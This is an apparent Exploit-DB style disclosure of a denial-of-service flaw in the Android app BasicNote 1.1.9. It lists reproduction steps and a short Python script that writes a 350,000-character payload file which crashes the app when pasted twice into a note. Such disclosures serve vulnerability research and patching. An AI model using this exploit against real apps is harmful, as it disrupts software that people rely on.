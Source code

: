 POC
---

    # Exploit Title: BasicNote 1.1.9 - Denial of Service (PoC)
    # Date: 2021-06-02
    # Author: Brian Rodríguez
    # Download Link: https://play.google.com/store/apps/details?id=notizen.basic.notes.notas.note.notepad&hl=es_MX
    # Version: 1.1.9
    # Category: DoS (Android)

    ##### Vulnerability #####

    BasicNote - Notas, Bloc de notas is vulnerable to a DoS condition when two long lists of characters are being used when creating a note:

    # STEPS #
    # Open the program
    # Create a new Note.
    # Run the python exploit script payload.py, it will create a new payload.txt file
    # Copy the content of the file "payload.txt"
    # Paste the content from payload.txt twice in the new Note.
    # Crashed

    Successful exploitation will causes application stop working.

    I have been able to test this exploit against Android 8.0.

    ##### PoC #####

    #!/usr/bin/env python
    buffer = "\x41" * 350000

    try:
        f = open("payload.txt","w")
        f.write(buffer)
        f.close()
        print ("File created")
    except:
        print ("File cannot be created")